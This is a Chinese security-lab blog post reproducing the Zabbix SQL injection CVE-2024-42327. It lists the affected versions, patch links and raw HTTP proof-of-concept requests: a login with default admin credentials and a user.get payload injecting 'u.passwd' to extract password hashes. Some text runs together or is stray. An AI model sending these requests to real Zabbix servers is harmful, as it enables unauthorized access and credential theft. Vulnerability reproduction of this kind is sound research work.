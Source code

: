 #  【失败复现】Zabbix SQL注入漏洞(CVE-2024-42327)   
弥天安全实验室  弥天安全实验室   2024-12-10 16:01  
  
网安引领时代，弥天点亮未来     
  
  
  
  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍Zabbix是Zabbix公司的一套开源的监控系统。该系统支持网络监控、服务器监控、云监控和应用监控等。Zabbix 6.0.0至6.0.31版本、6.4.0至6.4.16版本和7.0.0版本存在SQL注入漏洞，该漏洞源于CUser类的addRelatedObjects函数中存在SQL注入漏洞，允许攻击者操纵数据库查询。0x02影响版本  
6.0.0 <= Zabbix <= 6.0.31  
  
6.4.0 <= Zabbix <= 6.4.16  
  
Zabbix 7.0.0  
0x03漏洞环境  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAZe4nYamd7pdSLN1RxdI8lq2us8NuRemURFEBL7TUFaU5YTWmoLKsHjRwun87ibXibGvz03MiaFVePg/640?wx_fmt=png&from=appmsg "")  
  
2.对漏洞进行测试 POC 默认账户密码登陆POST /api_jsonrpc.php HTTP/1.1Host: IPUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateContent-Type: application/json-rpcContent-Length: 106Connection: closeReferer: http://IP/Upgrade-Insecure-Requests: 1Priority: u=0, i{"jsonrpc": "2.0", "method": "user.login", "params": {"username": "Admin", "password": "zabbix"}, "id": 1}      测试，若成功登录后请用poc测试POST /api_jsonrpc.php HTTP/1.1Host: IPUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateContent-Type: application/json-rpcContent-Length: 167Connection: closeUpgrade-Insecure-Requests: 1Priority: u=0, i{"jsonrpc": "2.0", "method": "user.get", "params": {"selectRole": ["roleid, u.passwd", "roleid"], "userids": "1"}, "auth": "6146ec7544c34e008486df010f1a2b6c", "id": 1}测试脚本0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://support.zabbix.com/browse/ZBX-25623https://asciinema.org/a/pTSjmgDdSRsre9KtWhaSP2EIkhttps://github.com/depers-rus/CVE-2024-42327起因是这样的你吩咐我照办弥天简介学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。口号 网安引领时代，弥天点亮未来 知识分享完了喜欢别忘了关注我们哦~学海浩茫，予以风动，必降弥天之润！   弥  天安全实验室  
  
